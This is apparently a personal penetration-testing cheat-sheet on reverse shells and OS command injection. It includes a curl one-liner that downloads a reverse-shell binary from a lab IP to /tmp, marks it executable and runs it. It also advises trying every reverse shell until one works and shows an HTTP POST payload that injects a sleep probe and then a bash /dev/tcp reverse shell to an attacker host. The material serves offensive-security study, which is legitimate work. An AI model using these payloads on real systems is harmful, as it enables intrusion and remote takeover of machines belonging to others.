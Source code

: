 Reverse shells
	If rev shells arent working, consider commands which download files from a http server that contain the rev shell, then execute that way
	consider uploading to /tmp or /dev/shm
	consider using bash instead of /bin/bash, or sh, etc...
	consider port usage (443, 80 are more likely to work that 4444)
	Consider transferring, chmod +x, then running
		example
		`curl 192.168.45.183/revshell -o /tmp/revshell && chmod +x /tmp/revshell && ./revshell`
		this usually will work
	Consider transferring over `bash` or `sh` as well as the shell
	Brute force rev shells
		just go through this list until something works!!!
		ALL OF THEM
			especially busybox...
	[[msfvenom]] to create rev shell executables
		windows -- exe
		linux -- elf

Command Injection
	If we can successfully POST, we can potentially inject additional commands in the data fields ie revshells.
```
# example of command injection 

insert after a data field

add ; AFTER as well AND # to comment out rest of line
----------------------------------------------

POST / HTTP/1.1
...snip...

data_field=/some/data/here;sleep+4;#

----------------------------------------------
the example above will cause the Response to PEND for 4 seconds. if it pends, we have command injection and can replace it with a rev shell

______________________________________________

POST / HTTP/1.1
...snip...

data_field=/some/data/here;bash+-c+'/bin/bash+-i+>%26+/dev/tcp/<KALI_ip_address>/<listen_port>+0>%261;#
```
NOTE: The rev shell is an example and you may need to try different ones, like busybox nc
	not working? consider [[SSH Keygen]]
;# after command injection is important, DO NOT IGNORE
	See [[5 OS Command Injection]]
